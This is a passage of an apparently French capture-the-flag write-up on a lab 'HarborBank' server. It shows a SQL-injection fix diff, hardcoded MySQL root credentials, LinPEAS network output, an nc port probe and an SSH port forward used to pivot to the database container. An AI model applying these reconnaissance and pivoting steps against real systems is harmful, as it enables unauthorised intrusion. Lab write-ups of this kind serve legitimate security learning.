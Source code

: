 ```php
-    $user = $_POST['user'];
-    $pass = $_POST['password'];     
+    $user = mysqli_real_escape_string($dbServer, $_POST['user']);
+    $pass = mysqli_real_escape_string($dbServer, $_POST['password']);
     $queryResult = mysqli_query($dbServer, "SELECT * FROM users where username = '$user' and password = '$pass'");
```

Enfin on trouve les identifiants MySQL :  

```php
$dbServer = mysqli_connect('mysql','root','TestPass123!', 'HarborBankUsers');
```

On peut réutiliser le même tunnel comme s'il s'agissait d'un serveur SSH classique.  

Je ne suis toutefois pas parvenu à uploader un fichier avec *scp* mais ça a très bien fonctionné avec *sftp*.  

Au passage, ce serveur est particulier car bien que l'on y trouve les scripts PHP, aucune configuration Apache ou Nginx n'est présente mais j'y reviendrait à la fin.  

In the neighboorhood
--------------------

*LinPEAS* remonte quelques informations sur le réseau, à commencer par l'interface :  

```plain
eth0      Link encap:Ethernet  HWaddr 02:42:AC:14:00:08  
          inet addr:172.20.0.8  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2686 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2964 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:921973 (900.3 KiB)  TX bytes:423591 (413.6 KiB)
```

Ainsi que quelques adresses dans le cache ARP :  

```plain
harborbank_apache_1.harborbank_backend (172.20.0.7) at 02:42:ac:14:00:07 [ether]  on eth0
harborbank_apache_v2_1.harborbank_backend (172.20.0.6) at 02:42:ac:14:00:06 [ether]  on eth0
harborbank_apache_v2_2.harborbank_backend (172.20.0.5) at 02:42:ac:14:00:05 [ether]  on eth0
```

Comme on a vu plus tôt avec les credentials MySQL, le serveur de base de données est sur un autre container nommé *mysql* :  

```plain
/var/www/html/OnlineBanking $ nc mysql 3306 -vz
mysql (172.20.0.138:3306) open
```

On utiliser SSH pour faire une redirection de port locale :  

```bash
$ ssh -p 8888 -L 33306:172.20.0.138:3306 127.0.0.1
```
